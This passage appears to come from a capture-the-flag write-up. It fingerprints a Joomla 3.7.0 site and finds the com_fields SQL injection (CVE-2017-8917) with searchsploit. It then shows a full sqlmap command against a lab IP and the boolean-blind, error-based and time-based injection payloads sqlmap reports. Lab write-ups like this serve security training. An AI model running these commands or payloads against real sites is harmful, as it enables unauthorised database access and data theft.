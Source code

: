 Joomla default login page. Let's gather some useful information about the CMS. 

We can try to search for Joomla manifest at `/administrator/manifests/files/joomla.xml`

![](/assets/img/daily-bugle-joomla-manifest.PNG) 

We find that Joomla's version is `3.7.0`. Let's search for some knwon vulnerabilities

```
$ searchsploit joomla 3.7.0

--------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                         |  Path
--------------------------------------------------------------------------------------------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                             | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                          | php/webapps/43488.txt
--------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
```

The first one is classified as CVE-2017-8917 and is caused by a new component, `com_fields`, which was introduced in this version. Looking at the source code of the exploit, we can see that we can confirm this vulnerability with sqlmap.

```
$ sqlmap -u "http://10.10.24.96/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

After a little bit of testing, sqlmap reported that the parameter `list[fullordering]` is vulnerable to these types of SQL Injection

```
---
Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (3278=3278) THEN 3278 ELSE 3278*(SELECT 3278 FROM DUAL UNION SELECT 2033 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 5583 FROM(SELECT COUNT(*),CONCAT(0x7170707671,(SELECT (ELT(5583=5583,1))),0x7162786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))RzgG)
```